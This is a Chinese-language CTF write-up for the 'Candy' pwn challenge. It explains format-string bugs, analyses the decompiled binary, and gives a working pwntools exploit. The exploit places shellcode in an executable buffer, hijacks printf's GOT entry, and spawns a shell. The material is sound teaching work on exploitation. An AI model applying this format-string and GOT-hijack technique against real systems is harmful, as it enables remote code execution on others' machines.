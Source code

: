 # Candy

- 作者：pn1fg
- 参考：-
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Pwn
- 镜像：[svuctf-winter-2023/candy](https://ghcr.io/svuctf/svuctf-winter-2023/candy)
- 端口：70

## 题目描述

## 题目解析

- 源码：[main.c](/build/main.c)
- 考点：格式化字符串，GOT 劫持，shellcode

格式化字符串函数是根据格式化字符串来进行解析的 。**那么相应的要被解析的参数的个数也自然是由这个格式化字符串所控制**。比如说'%s'表明我们会输出一个字符串参数。

![](writeup/images/printf.png)

在进入 printf 之后，函数首先获取第一个参数，一个一个读取其字符会遇到两种情况

- 当前字符不是 %，直接输出到相应标准输出。
- 当前字符是 %， 继续读取下一个字符
- 如果没有字符，报错
- 如果下一个字符是 %, 输出 %
- 否则根据相应的字符，获取相应的参数，对其进行解析并输出

那么假设，此时我们在编写程序时候，写成了下面的样子

```c
printf("Color %s, Number %d, Float %4.2f");
```

此时我们可以发现我们并没有提供参数，那么程序会如何运行呢？程序照样会运行，会将栈上存储格式化字符串地址上面的三个变量分别解析为

- 1.解析其地址对应的字符串
- 2.解析其内容对应的整形值
- 3.解析其内容对应的浮点值

这基本就是格式化字符串漏洞的基本原理了。

### 查看文件信息

查看文件类型（`file` 命令）：

```shell
$ file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0059aa9c4a34393d23601ab109b1b940e1a6424e, for GNU/Linux 4.4.0, not stripped
```

这是一个64位 ELF 文件（`ELF 64-bit LSB executable`），动态链接（`dynamically linked`），没有去除符号（`not stripped`）

检查文件保护机制（`checksec`命令）：

```shell
$ checksec pwn
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### 分析漏洞成因

反编译 `main` 函数：

```c
ulong main(void)

{
    sym.init();
    sym.banner();
    sym.vuln();
    return 0;
}
```

反编译 `init` 函数：

```c
void sym.init(void)

{
    sym.imp.setvbuf(_reloc.stdin, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stdout, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stderr, 0, 2, 0);
    sym.imp.mprotect(reloc.puts, 0x1000, 7);
    return;
}
```

`mprotect` 函数原型

```c
int mprotect(const void *start, size_t len, int prot);
```

`mprotect()` 函数把自 start 开始的、长度为 len 的内存区的保护属性修改为 prot 指定的值。这里的 prot 为7，所以这一块内存区则**可读可写可执行**

反编译 `vuln` 函数：

```c
void sym.vuln(void)

{
    ulong format;
    ulong var_4h;

    sym.imp.puts("Input your favorite candy:");
    while( true ) {
        sym.menu();
        sym.imp.__isoc99_scanf(0x402423, &var_4h);
        if (var_4h == 3) {
            sym.imp.puts("There is no Unique Human Adventured");
            return;
        }
        if (3 < var_4h) break;
        if (var_4h == 1) {
            sym.imp.read(0, obj.name, 0x100);
        }
        else {
            if (var_4h != 2) break;
            sym.imp.puts("There\'s a candy voucher in the flag!");
            sym.imp.memset(&format, 0, 0x100);
            sym.imp.read(0, &format, 0x100);
            sym.imp.printf(&format);
        }
    }
    sym.imp.puts("Don\'t you like all of them?");
    return;
}
```

分析一下 `vuln` 函数的逻辑，最外层 `while` 循环，然后输入一个整形值，接下来 `if` 条件判断，当输入的值为 `1` 时，调用 `read` 函数向 `obj.name` 中读入 0x100 字符串，`obj.name` 位于`bss`段上，有可执行权限，当输入的值为 `2` 时，执行的分支语句为：

```c
sym.imp.puts("There\'s a candy voucher in the flag!");
sym.imp.memset(&format, 0, 0x100);
sym.imp.read(0, &format, 0x100);
sym.imp.printf(&format);
```

这里有很明显的格式化字符串漏洞，可以修改任意地址

这题我们的利用思路如下：

- 在 `obj.name` 处填入 shellcode
- 利用格式化字符串漏洞劫持 GOT 表，修改 `printf` 处地址为 `obj.name` 地址即可执行 shellcode，获取 shell

### 编写利用程序

[exp.py](writeup/exp.py)

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

if args['REMOTE']:
    io = remote('IP',port)
else:
    io = process("./candy")

elf = ELF("./candy")

def exec_fmt(pad):
    io = process("./candy")
    io.sendline(b"2")
    io.send(pad)
    info = io.recv()
    io.close()
    return info

fmt = FmtStr(exec_fmt)
offset = fmt.offset
print("offset ===> ", offset)

pad = fmtstr_payload(offset, {elf.got["printf"]: elf.sym["name"]})

io.sendlineafter(b"Command:", b"1")
io.send(asm(shellcraft.sh()))

io.sendlineafter(b"Command:", b"2")
io.sendlineafter(b"flag!\n", pad)

io.interactive()
```
